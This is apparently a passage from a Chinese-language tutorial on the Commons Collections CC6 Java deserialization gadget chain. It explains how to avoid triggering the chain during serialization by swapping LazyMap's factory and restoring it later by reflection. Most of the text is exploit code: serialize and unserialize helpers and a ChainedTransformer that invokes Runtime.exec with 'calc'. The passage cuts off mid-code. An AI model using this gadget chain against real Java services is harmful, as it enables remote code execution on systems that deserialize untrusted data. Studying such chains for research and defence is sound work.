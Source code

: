 ```plain
        map2.put(tiedMapEntry,"bbb");

        ;


    }


    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }

    public static Object unserialize(String Filename) throws IOException,ClassNotFoundException{
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }

}
```

#### 问题一：

因为序列化我们没有必要让他进行命令执行，而 hashMap 中的 put 方法会直接调用下去，所以这里我们可以在序列化的时候破环链子的某一个参数，防止他命令执行，然后在执行完 put 以后再利用反射将参数改回来

这里将 LazyMap 中对应参数 factory 要传入的 chainedTransformer 来进行替换，然后再通过反射将 factory 的值修改过来：

```plain
package exp;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;


import java.io.*;


import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CC6Test {
    public static void main(String[] args) throws Exception{


        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);


        HashMap<Object,Object> map = new HashMap<>();
        Map<Object,Object> Lazymap = LazyMap.decorate(map,new ConstantTransformer(1));

```